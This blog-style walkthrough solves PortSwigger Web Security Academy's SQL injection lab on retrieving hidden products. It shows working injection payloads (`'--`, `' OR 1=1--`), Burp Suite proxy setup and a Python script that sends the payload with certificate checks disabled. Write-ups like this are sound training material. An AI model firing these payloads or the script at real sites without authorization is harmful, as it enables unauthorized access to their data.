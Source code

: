 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-4.png)

Lab #1 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Description

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Steps

Upon accessing the lab and filtering on the `Pets` category, I noticed a GET parameter named `category` in the URL.

To test the application’s behavior, I initially tried adding a single quote (`'`) by navigating to `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='`.

This resulted in an `Internal Server Error`, which confirms that the application is indeed vulnerable.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-1.png)

By adding a single quote (`'`) to the `category` parameter, the application executes the following query against the database:

```sql
SELECT * FROM products WHERE category = ''' AND released = 1
```

### Preparing a SQL injection Payload:

Let’s try replacing `'` with `'--`. The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`.

**Expected Query:**

```sql
SELECT * FROM products WHERE category = ''-- AND released = 1
```

URL: `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='--`

As we can observe, the error disappeared, and the page returned no products. Perfect!

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-2.png)

Next, let’s try `' OR 1=1`, which will return the result of the following query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- AND released = 1
```

The modified query will return all items where either the category is empty (`''`) or `1=1`. Since `1=1` is always true, the query will return all items.

This solves Lab #1! Congratulations.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-3.png)

However, we won’t stop here. Let’s go the extra mile and automate the SQLi payload. To begin, download Burp Suite Community Edition and ensure that the Proxy listener is enabled.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-6.png)

Download the FoxyProxy extension and add the Burp Suite proxy address and port.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-5.png)

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-7.png)

Enable the Burp proxy and navigate to the interface where Burp is running (`127.0.0.1:8080`). Save the CA certificate when prompted.&#x20;

<figure><img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-10.png" alt=""><figcaption></figcaption></figure>

To prevent Firefox SSL errors when using Burp, import the certificate we just downloaded by going to `about:preferences#privacy` in Firefox.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-11.png)

We are now ready to intercept our HTTP(s) traffic through Burp. As shown below, the intercept is on, and we can observe the GET `/filter?category=param` request.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-8.png)

To automate this SQL injection payload, we can use the below Python script:

```
import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		payload = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <payload> ; e.g www.example.com "1=1"' % sys.argv[0])  
		sys.exit(-1)  
  
uri = '/filter?category='  
r = requests.get(url + uri + payload, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in r.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
```

To test our script with the Lab’s temporary URL and the payload we initially tested (`' OR 1=1--`), you can use the following command:

```powershell
> python3 sqli-lab01.py https://0a9d00e603476b2480e1766400eb00da.web-security-academy.net "' or 1=1--"
```

et voilà! [Little bobby tables](https://xkcd.com/327/) would be very happy :-)

![](https://jawad.ca/images/sqli-lab01/exploits\_of\_a\_mom.png)
